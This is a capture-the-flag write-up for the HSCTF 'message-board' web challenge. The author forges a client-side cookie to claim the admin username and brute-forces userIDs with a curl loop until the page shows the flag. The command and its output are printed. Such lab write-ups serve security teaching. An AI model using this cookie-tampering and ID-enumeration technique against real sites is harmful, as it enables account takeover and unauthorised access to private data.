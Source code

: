 # message-board-master(Web) - Writeup

## description

````
web/message-board
goose

Your employer, LameCompany, has lots of gossip on its company message board: message-board.hsc.tf. You, Kupatergent, are able to access some of the tea, but not all of it! Unsatisfied, you figure that the admin user must have access to ALL of the tea. Your goal is to find the tea you've been missing out on.

Your login credentials: username: kupatergent password: gandal

Server code is attached (slightly modified).
````


## answer

When you log in with the credentials in the problem statement, you will see the conversation screen.
![000-1](https://user-images.githubusercontent.com/45488828/122660831-7d88ad00-d1bf-11eb-8655-7ebbb667975f.jpg)
![001-1](https://user-images.githubusercontent.com/45488828/122660833-7feb0700-d1bf-11eb-9299-bdae4404086c.jpg)
![002-1](https://user-images.githubusercontent.com/45488828/122660885-fdaf1280-d1bf-11eb-8eef-fb6b2a234dc2.jpg)

The login ID and user name are managed by the cookie value, which seems to be rewritable.

userData = j%3A%7B%22userID%22%3A%22972%22%2C%22username%22%3A%22kupatergent%22%7D

Rewrite username to admin and then search for userID.

````
┌──(root💀kali)-[~]
└─# for i in {100..999}; do
curl -H "Cookie:userData=j%3A%7B%22userID%22%3A%22$i%22%2C%22username%22%3A%22admin%22%7D" https://message-board.hsc.tf/ | grep flag{
done

  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1819  100  1819    0     0   2229      0 --:--:-- --:--:-- --:--:--  2226
        <p><strong data-bs-toggle="tooltip" title="what a cool name">HSCTF:</strong> flag{y4m_y4m_c00k13s}</p>

````

###### flag{y4m_y4m_c00k13s}
